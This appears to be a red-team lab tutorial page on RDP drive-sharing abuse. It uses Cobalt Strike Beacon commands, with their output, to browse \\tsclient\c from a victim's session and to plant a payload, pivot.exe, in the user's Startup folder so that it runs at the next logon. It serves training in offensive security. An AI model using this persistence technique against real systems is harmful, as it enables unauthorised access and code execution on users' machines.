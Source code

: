 Inside `jean.wise`'s RDP session on SQL-1, there's a UNC path called `tsclient` which has a mount point for every drive that is being shared over RDP. `\\tsclient\c` is the C: drive on the origin machine of the RDP session, in this case `sql01.zeropointsecurity.local`.

```
beacon> ls \\tsclient\c

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     02/20/2021 10:15:23   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     02/20/2021 10:14:59   Program Files
          dir     02/20/2021 10:13:41   Program Files (x86)
          dir     03/10/2021 17:19:54   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/20/2021 10:00:17   SQL2019
          dir     02/17/2021 18:47:03   System Volume Information
          dir     03/16/2021 15:24:24   Users
          dir     02/17/2021 18:47:20   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 1gb      fil     03/16/2021 14:22:21   pagefile.sys
```

This gives us the equivalent of standard user read/write access to that drive. This doesn't seem that useful, but what we can do it upload a payload, such as a bat or exe to `jean.wise`'s startup folder. The next time they login, it will execute and we get a shell.

You can simulate this in the lab by disconnecting and reconnecting your console access.

&#x20; Don't put your pivot listener on the Beacon injected into `jean.wise` on SQL-1. When the RDP session is disconnected, the Beacon will die and you'll lose the pivot.

```
beacon> cd \\tsclient\c\Users\jean.wise\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 174b     fil     05/15/2021 19:00:25   desktop.ini
 281kb    fil     05/15/2021 20:31:00   pivot.exe
```

Disconnect and reconnect to the console of sql01.zeropointsecurity.local to simulate a user logoff/logon, and the Beacon will execute.

![.gitbook/assets/1663788103.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788106/fzaaodt4i2kim6ubc0tu.png)
